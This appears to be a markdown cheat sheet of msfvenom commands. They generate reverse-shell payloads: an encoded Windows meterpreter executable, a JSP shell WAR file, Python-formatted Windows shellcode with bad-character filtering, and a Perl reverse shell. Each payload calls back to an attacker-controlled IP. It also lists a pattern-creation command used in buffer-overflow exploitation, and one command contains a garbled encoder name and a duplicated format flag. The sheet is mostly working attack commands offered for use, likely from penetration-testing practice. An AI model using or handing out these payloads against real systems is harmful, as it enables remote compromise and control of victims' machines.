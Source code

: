 # MSFVenom Commands
```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o [SHELL NAME].exe
```
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.6.30.236 LPORT=4444 -f war > shell.war
```
```
msf-pattern_create -l 200
```


```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.13.5.52 LPORT=4444 -e x06/shikata_ga_nai -f exe -b "\x00\x0a" -f python -v payload
```

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.93 LPORT=1234 -b "\x00" -f python -v payload
```
Ruby payload:
```
msfvenom -p cmd/unix/reverse_perl LHOST=<attacker_IP> LPORT=4000 -f raw
```
a payload example for msfvenom
```
msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl
```
